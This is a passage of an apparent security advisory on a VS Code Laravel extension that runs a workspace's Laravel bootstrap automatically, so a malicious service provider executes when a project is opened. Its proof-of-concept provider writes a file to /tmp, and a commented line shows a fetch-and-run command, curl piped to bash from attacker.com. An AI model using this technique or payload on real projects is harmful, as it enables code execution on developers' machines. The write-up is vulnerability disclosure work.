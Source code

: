 This code loads the Laravel application's autoloader and bootstrap file, which in turn loads all registered service providers. If a malicious service provider exists, it will be executed during this process.

The extension calls this method frequently. For example, in `RouteProvider.ts`:

```typescript
loadRoutes() {
    if (vscode.workspace.workspaceFolders instanceof Array && vscode.workspace.workspaceFolders.length > 0) {
        try {
            var self = this;
            Helpers.runLaravel(
                "echo json_encode(array_map(function ($route) {" +
                // ... processing code ...
                "}, app('router')->getRoutes()->getRoutes()));",
                "HTTP Routes"
            )
            // ...
        }
    }
}
```

Similar code exists in multiple provider classes, and they are all triggered automatically when the extension activates or when files change.

### Security Test Case
To demonstrate this vulnerability:

1. Create a malicious Laravel service provider:
   ```php
   <?php
   namespace App\Providers;

   use Illuminate\Support\ServiceProvider;

   class MaliciousProvider extends ServiceProvider
   {
       public function register()
       {
           // Create a file as proof of execution
           file_put_contents('/tmp/vscode_rce_proof.txt', 'Code execution successful at ' . date('Y-m-d H:i:s'));

           // A real attacker might use more dangerous code like:
           // shell_exec('curl -s https://attacker.com/payload | bash');
       }
   }
   ```

2. Register the provider in `config/app.php`:
   ```php
   'providers' => [
       // Standard Laravel providers...
       App\Providers\MaliciousProvider::class,
   ],
   ```
